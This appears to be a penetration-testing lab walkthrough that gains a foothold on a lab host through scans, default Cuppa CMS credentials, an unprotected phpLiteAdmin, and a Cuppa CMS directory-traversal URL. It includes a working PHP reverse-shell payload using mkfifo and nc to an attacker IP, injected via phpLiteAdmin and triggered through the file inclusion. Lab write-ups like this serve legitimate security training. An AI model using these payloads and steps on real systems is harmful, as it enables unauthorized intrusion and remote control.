



Getting a Foothold

Getting a Foothold

# Works
1. Run NMAP scans to find open ports

2. Run dirb. Found 2 interesting directories: /administrator and /db

3. View the login page for Cuppa CMS

4. Find default credentials for Cuppa CMS (admin:admin). They work! Creds for the cuppa db is found there

5. View the login page for phpLiteAdmin. Didn't need any password! Creds for several users is found there.

6. Run Nikto scan. It specifies that /administrator and /db are interesting.

7. Try the Cuppa CMS LFI/RFI exploit on the target. It works for directory traversal!
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

8. Attempt RFI by using the phpLiteAmin exploit 24044.txt

9. In phpLiteAdmin, create a new database named hack.sqlite

10. Rename hack.sqlite to hack.php

11. Add a new table to hack.php. This example named it 'hacktable' and input number of fields = 1

12. Add a new field. This example named it 'hackfield', type 'TEXT', and Default Value is a php command for a reverse shell. The following php code uses netcat client to connect to our kali attack machine on port 1937:

`<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 1937 >/tmp/f") ?>`

Verify that table 'hacktable' has been created

Close-up view of the php code

13. Verify the path where the injected php code is stored. This is the LFI. The path to this code is:
### /usr/local/databases/hack.php

14. Open a netcat listener on port 1937
`nc -lvnp 1937`

15. Browse to our code by utilizing the previous Cuppa CMS exploit.
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php`

16. Notice we now have a reverse shell

